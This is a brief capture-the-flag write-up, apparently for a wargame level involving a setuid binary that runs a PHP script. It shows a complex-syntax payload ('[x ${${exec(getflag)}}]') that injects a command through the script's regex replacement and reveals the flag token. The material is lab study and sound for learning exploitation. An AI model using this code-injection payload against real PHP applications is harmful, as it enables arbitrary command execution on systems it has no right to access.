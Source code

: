 # Level07
ls -la

-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php

strings level06 --> binary file, read a file content, and use regex to replace it with new txt

echo '[x ${${exec(getflag)}}]' > /tmp/flag $$exec(getflag)

PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1